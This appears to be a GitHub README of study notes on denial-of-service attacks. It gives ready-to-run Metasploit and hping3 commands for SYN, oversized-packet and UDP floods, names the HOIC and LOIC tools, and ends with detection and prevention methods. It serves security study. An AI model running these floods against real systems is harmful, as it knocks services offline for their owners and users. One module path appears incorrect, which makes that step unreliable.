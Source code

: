 # DENIAL OF SERVICE (DoS)
In a DoS attack, attackers flood a victim’s system with nonlegitimate service requests or traffic to overload its resources, ideally bringing the system down and leading to the unavailability of the victim’s website.<br>
## DoS ATTACKS ARE OF 3 MAIN TYPES
* Volumetric attacks: populate the bandwidth of the target network.
  Techniques:
  * UDP flood
  * ICMP flood
  * Ping of death and smurf attack
  * Pulse wave and zero-day attacks
* Protocol attacks: populate resources like connection state tables in network infrastructures like firewalls, load balancers, servers etc.
  Techniques:
  * SYN flood attack
  * Fragmentation attack
  * spoofed session flood attack
  * ACK flood attack
* Application layer attacks
  Techniques:
  * HTTP GET/POST attack
  * Slowloris attack
  * UDP application layer flood

## PERFORMING SYN FLOODING ATTACK USING METASPLOIT
1. check if the desired port is open (21 in this case) using: ```nmap -p 21 <target IP(s)>```
2. start metasploit by entering the command ```msfconsole```
3. load the auxiliary module 'synflood' using: ```use auxiliary/tcp/synflood```
4. configure the target:
5. set RHOST <target IP>
6. set RPORT <target port>
7. start the DoS attack by entering ```exploit```<br>
![image](https://user-images.githubusercontent.com/56624593/151600090-ac45d3d0-678c-42cf-8e6f-fe825cea400d.png)<br>

## PERFORM DoS ATTACK USING hping3
### Simple Flood
```hping3 -S <Target IP Address> -p <target port> --flood```<br>
![image](https://user-images.githubusercontent.com/56624593/151600747-dbe8a365-2cfc-41a0-a982-834a29516b09.png)<br>

### Ping Of Death
```hping3 -d 65538 -S -p <target port> --flood <Target IP Address>```<br>
In a ping of Death attack, the attacker tries to crash, freeze, or destabilize the targeted system or service by sending malformed or oversized packets using a simple ping command.<br>
![image](https://user-images.githubusercontent.com/56624593/151601076-47ece7df-a4b3-459b-880b-3da7f240d7e3.png)<br>
the attacker sends a packet that has a size of 65,538 bytes to the target web server. This packet size exceeds the size limit prescribed by RFC 791 IP, which is 65,535 bytes. The receiving system’s reassembly process might cause the system to crash.<br>

### UDP application layer flood
we will use NetBIOS port 139 to perform a UDP application layer flood attack.<br>
``` hping3 -2 -p 139 --flood <Target IP Address>```<br>
![image](https://user-images.githubusercontent.com/56624593/151601639-5ad9e79b-84da-4a3e-acf9-3538e8418aa3.png)<br>
some UDP based application layer protocols that can be flooded:<br>
CharGEN (Port 19), SNMPv2 (Port 161), QOTD (Port 17), RPC (Port 135), SSDP (Port 1900), CLDAP (Port 389), TFTP (Port 69), NetBIOS (Port 137,138,139), NTP (Port 123), Quake Network Protocol (Port 26000), VoIP (Port 5060).

## DDoS ATTACKS USING TOOLS LIKE HOIC AND LOIC
When a large number of devices perform a DoS attack on a victim, it is called a Distributed DoS (DDoS) attack.<br>
HOIC (High Orbit Ion Cannon) and LOIC (Low orbit Ion Cannon) are GUI based tools that are used to perform DOS, DDOS attacks on targets.<br>
HOIC can target multiple targets (up to 256) at once, while LOIC is focussed more towards attacking web based applications and IPs.

## PROTECTION AGAINST DDoS ATTACKS
THERE ARE 3 MAIN WAYS TO DETECT DDoS ATTACKS
* Activity Profiling: Profiles based on the average packet rate for a network flow, which consists of consecutive packets with similar packet header information
* Sequential Change-point Detection: Filters network traffic by IP addresses, targeted port numbers, and communication protocols used, and stores the traffic flow data in a graph that shows the traffic flow rate over time.
* Wavelet-based Signal Analysis: Analyzes network traffic in terms of spectral components
  
### PREVENTING DDoS USING ANTI DDoS GUARDIAN
Anti DDoS Guardian is a GUI tool that limits network flow number, client bandwidth, client concurrent TCP connection number, and TCP connection rate. It also limits the UDP bandwidth, UDP connection rate, and UDP packet rate.<br>
![image](https://user-images.githubusercontent.com/56624593/151605024-bead665e-1b77-43f2-a384-8d0bee6f9e88.png)<br>
